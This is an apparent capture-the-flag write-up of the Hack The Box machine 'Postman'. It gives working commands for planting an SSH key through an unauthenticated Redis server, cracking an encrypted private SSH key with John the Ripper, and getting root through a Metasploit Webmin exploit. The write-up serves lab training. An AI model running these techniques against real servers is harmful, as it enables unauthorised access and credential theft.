<h1>HTB: Postman</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Postman)      |
| Difficulty | Easy                                                             |
| OS         | Linux                                                            |
| Author     | ByteFragment                                                     |
| Date       | July 6th  2026                                                   |

--- 

<h2>Reconnaissance</h2>

<h3>NMAP</h3>

Port scanning the target using nmap via the command:

```
sudo nmap -sT -sV -T4 -p- 10.129.2.1 -oN nmap
```

This gave me the open tcp ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results we can see that the target machine is running an ssh server on port 22 using `OpenSSH 7.6p1`, an http server on port 80 running `Apache 2.4.29`, a redis server on port 6379 running `Redis key-value store 4.0.9` and another http server on port 10000 running ` MiniServ 1.910 (Webmin httpd)`:

```
Nmap scan report for 10.129.2.1
Host is up (0.083s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can additionally confirm that the target machine is running linux.

<h3>Web Recon</h3>

Visiting the target ip on port 80 using firefox we see a website homepage with text saying "Welcome to The Cyber Geek's Personal Website! Under Construction! Coming Soon!"


Port 10000 provides something mor interesting when we visit it as it contains a `Webmin` login form:



<h2>Enumeration</h2>

Searching for Redis online reveals it is an in-memory key-value database.

[HackTricks](https://hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html) pentesting redis article states that we may be able to use the `redis-cli` tool to gain access to the target machine. 

<h3>redis-cli</h3>

The first step is to see if we can actually connect to the database using the command:

```
redis-cli -h 10.129.2.1
```

We can then run the command `INFO` which will either give us banner information or tell us that authentication is required. Thankfully when we run the command we get the banner information:



<h2>Exploitation / Foothold</h2>

Knowing that we are dealing with a redis instance that does not require authentication means we can run redis-cli commands on the target server. 

Lets use this to gain ssh access to the server by adding our attack machine to the `authorized hosts` file on the target machine.

First we need to make sure we have ssh keys generated on our attack machine by checking for a id_[Algorithm]<b>.pub</b>. If we do not we need to generate on using the command:

```
ssh-keygen -t rsa
```

Then we need to write our ssh key to a file using the command:

```
(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
```

Note that the ~/id_rsa.pub may need to be replaced with the location of your .pub file. 

Now that we have out ssh key written to a file we can import the file into `redis` with the command:

```
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set ssh_key
```

Then we need to save the public key to the `authorised_keys` file on the redis server:

```
10.129.2.1:6379> config set dir /var/lib/redis/.ssh
OK
10.129.2.1:6379> config set dbfilename "authorized_keys"
OK
10.129.2.1:6379> save
OK
```

We should now be able to ssh into the target machine using the command:

```
ssh -i ~/.ssh/id_rsa redis@10.129.2.1
```



Success! However we are logged in as the user `redis` and this user does not have read permissions on the yser flag in `/home/Matt/` so we must gain access to the Matt user.

<h2>Enumeration</h2>

Now we need to enumerate the target machine and to do this we will use [linePEAS](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md), an automated Linux enumeration tool.

<h3>linPEAS</h3>
After transferring the `linpeas.sh` script onto the target machine we can add execution permissions and then run the script:



After the script has completed we can begin looking through its output. After scrolling down a bit we see that in the /opt directory the script found what looks to be Matts private ssh key:



<h2>Lateral Movement</h2>

Unfortunately it is encrypted so we will have to attempt to crack it using `John the Ripper`.

<h3>John the Ripper</h3>

First we must use John's `ssh2john` command line tool to convert the encrypted ssh key into a format that John can use:

```
ssh2john id_rsa.bak >> hash
```

Now we can try and crack the hash using the command:

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

John makes quick work of the hash and gives us the password:



Now we can simply switch from the user `redis` to `Matt` using the `su` command:



The user flag is in /home/Matt

<h2>Escalation</h2>

Going back to the Webmin login portal we find that Matt's credentials are also valid for this service!




Searching for `Webmin 1.910` in metasploit we are given a single result:



We can then select the exploit and fill out the required options and importantly set SSL to true:



Once this is done we have a root shell on the target machine! 



The root flag is found in the /root directory thus solving the challenge!

